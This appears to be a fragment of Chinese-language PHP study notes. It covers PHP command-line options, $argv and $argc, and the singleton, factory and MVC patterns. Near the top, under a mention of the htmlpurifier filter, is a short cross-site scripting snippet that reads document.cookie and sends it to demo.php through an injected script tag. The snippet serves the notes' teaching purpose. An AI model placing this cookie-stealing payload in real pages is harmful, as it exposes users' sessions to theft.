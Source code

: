 开源过滤器：htmlpurifier  
  
### 获取COOKIE ###
``` 
<script>  
var c = document.cookie; //获取COOKIE  
var script = document.createElement('script'); //创建script标签  
script.src = 'demo.php?c=' + c; //发送到指定的文件接收  
document.body.appendChild(script); //添加到DOM对象中生效  
</script> 
``` 

## 命令行CLI ##

1. 显示帮助信息  
php -h  
2. 解析并运行-f选项给定的文件名 
``` 
php [-f] <file> [--] [args...] 
``` 
3. 在命令行内运行单行PHP代码  
```
php [options] -r <code> [--] [args...] 
``` 
无需加上PHP的起始和结束标识符，否则将会导致语法解析错误  
4. 调用phpinfo()函数并显示出结果
```  
php -i/--info  
```
5. 检查PHP语法  
```
php -l/--syntax-check  
```
6. 打印出内置以及已加载的PHP及Zend模块  
```
php -m/--modules  
```
7. 将PHP，PHP SAPI和Zend的版本信息写入标准输出  
```
php -v/--version  
```
  
8. 参数接收  
		$argv    传递给脚本的参数数组  
    	第一个参数总是当前脚本的文件名，因此$argv[0]就是脚本文件名  
		$argc    传递给脚本的参数数目  
    	脚本的文件名总是作为参数传递给当前脚本，因此$argc的最小值为1  
包含当运行于命令行下时传递给当前脚本的参数的数组  
此两个变量仅在register_argc_argv打开时可用  
  
  
## 设计模式 ##  

* 单例模式：为一个类生成一个唯一的对象。使用单例模式生成一个对象后，该对象可以被其它众多对象所使用。  
* 工厂模式：封装对象的建立过程。可以在对象本身创建对象工厂或者是一个额外的工厂类  
* MVC模式：用户->控制器->模型->控制器->视图->控制器->用户  
